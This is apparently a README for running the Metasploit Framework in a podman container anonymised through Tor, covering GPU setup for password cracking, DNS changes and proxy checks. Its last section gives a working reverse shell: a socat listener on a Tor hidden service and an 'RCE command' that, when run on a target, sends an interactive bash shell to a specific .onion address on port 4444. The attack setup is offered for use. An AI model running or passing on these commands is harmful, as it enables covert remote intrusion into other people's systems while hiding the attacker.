

## Metasploit Framework

```sh
|                                                                              |
|                   METASPLOIT CYBER MISSILE COMMAND V5                        |
|______________________________________________________________________________|
      \                                  /                      /
       \     .                          /                      /            x
        \                              /                      /
         \                            /          +           /
          \            +             /                      /
           *                        /                      /
                                   /      .               /
    X                             /                      /            X
                                 /                     ###
                                /                     # % #
                               /                       ###
                      .       /
     .                       /      .            *           .
                            /
                           *
                  +                       *

                                       ^
####      __     __     __          #######         __     __     __        ####
####    /    \ /    \ /    \      ###########     /    \ /    \ /    \      ####
################################################################################
################################################################################
# WAVE 5 ######## SCORE 31337 ################################## HIGH FFFFFFFF #
################################################################################
                                                           https://metasploit.com
```

Nvidia docker/podman support:
```sh
curl -fsSL https://nvidia.github.io/libnvidia-container/gpgkey | sudo gpg --dearmor -o /usr/share/keyrings/nvidia-container-toolkit-keyring.gpg \
  && curl -s -L https://nvidia.github.io/libnvidia-container/stable/deb/nvidia-container-toolkit.list | \
    sed 's#deb https://#deb [signed-by=/usr/share/keyrings/nvidia-container-toolkit-keyring.gpg] https://#g' | \
    sudo tee /etc/apt/sources.list.d/nvidia-container-toolkit.list

sudo apt-get update

sudo apt-get install -y \
    linux-headers-$(uname -r) \
    podman \
    podman-compose \
    nvidia-driver \
    nvidia-cuda-toolkit \
    nvidia-container-toolkit

# Set/Check NVIDIA configuration
nvidia-ctk cdi generate --output=/var/run/cdi/nvidia.yaml
nvidia-ctk cdi generate --output=/etc/cdi/nvidia.yaml
chmod a+r /var/run/cdi/nvidia.yaml /var/run/cdi/nvidia.yaml 
nvidia-smi -L
nvidia-ctk cdi list
```

Run with gpu support for faster cracking:

```sh
podman-compose up
```

Without:

```sh
# change dns, using quad9 - change this to a nameserver other than ISP
sudo mv /etc/resolv.conf /etc/resolv.conf.bak
sudo touch /etc/resolv.conf
echo -ne 'nameserver 9.9.9.9\nnameserver 149.112.112.112' | sudo tee -a /etc/resolv.conf

podman build -t metasploit .

podman run -it --name metasploit \
    --cap-add=net_admin \
    --device /dev/net/tun \
    -v /etc/resolv.conf:/etc/resolv.conf:ro \
    -p 127.0.0.1:8118:8118 -p 127.0.0.1:9050:9050 -p 127.0.0.1:9051:9051 \
    metasploit

# test tor
curl --socks5 localhost:9050 --socks5-hostname localhost:9050 https://check.torproject.org/api/ip

# test proxychains
proxychains curl https://check.torproject.org/api/ip

# verify privoxy
curl -Lx http://127.0.0.1:8118 http://checkip.amazonaws.com/
```

### Proxy browser traffic through tor
<p align="center">

</p>

```bash
### reverse shell
## through tor
# note: tor/socat will have to be installed on target

podman exec -it <some_name> /bin/bash 

# set vars, line 135 in Dockerfile sets the port
LHOST=$(cat /var/lib/tor/hidden_service/hostname)
LPORT=4444
RSHELL="socat file:$(tty),raw,echo=0 TCP-L:$LPORT"

# reverse shell through tor is now listening via socat
$RSHELL

# get tor hostname
echo $LHOST
a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion

# RCE command for reverse shell
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:a2w6cyja3wtgn5mzbvj4vgmypezg66dar2aw6ylbkwpfv7wmz3udsnid.onion:4444
```
